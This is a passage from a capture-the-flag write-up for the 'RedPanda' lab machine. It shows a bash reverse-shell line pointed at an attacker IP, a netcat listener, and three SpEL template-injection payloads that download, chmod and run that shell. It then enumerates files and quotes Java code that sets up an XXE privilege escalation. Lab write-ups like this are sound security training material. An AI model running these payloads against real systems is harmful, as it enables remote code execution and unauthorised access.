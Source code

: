Get a reverse shell was a bit finicky. What ended up working for me was using 3 separate payloads to first download a reverse shell from my attack box, `chmod` it to make it executable, and the executing it.
```bash
# Write webshell to file
echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' > shell.sh

# Start webserver
python3 -m http.server 80

# Start netcat listener
nc -lvnp 9001
```
1st Payload to download the reverse shell:
```js
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.78/shell.sh -O /dev/shm/shell.sh').getInputStream())}
```
2nd Payload:
```js
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod +x /dev/shm/shell.sh').getInputStream())}
```
3rd Payload:
```js
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('/dev/shm/shell.sh').getInputStream())}
```
And I then catch the shell on my netcat listener. I then use the [python pty trick](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell) to upgrade my shell.
# XXE > Root Shell
In the shell, I am a member of the logs group. I run a `find` command to see what this group owns. Ommiting the lines from the `/proc`, `/tmp`, and `/home/woodenk/.m2`, I get:
```
woodenk@redpanda:/opt$ find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
/opt/panda_search/redpanda.log
/dev/shm/shell.sh
/credits
/credits/damian_creds.xml
/credits/woodenk_creds.xml
```
I can read the `/credits` directory, but not write to it.

The rest of the good stuff here is in the `/opt` directory. This is where the RedPanda site is hosted.

#### MainController.java
Reading `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java` I see that the `/stats` route (the website page that displays views) is gettings its values from `/credits/[author]_creds.xml`
```java
if(author.equals("woodenk") || author.equals("damian"))
                {
                        String path = "/credits/" + author + "_creds.xml";
                        File fd = new File(path);
                        Document doc = saxBuilder.build(fd);
                        Element rootElement = doc.getRootElement();
                        String totalviews = rootElement.getChildText("totalviews");
                        List<Element> images = rootElement.getChildren("image");
                        for(Element image: images)
                                System.out.println(image.getChildText("uri"));
                        model.addAttribute("noAuthor", false);
                        model.addAttribute("author", author);
                        model.addAttribute("totalviews", totalviews);
```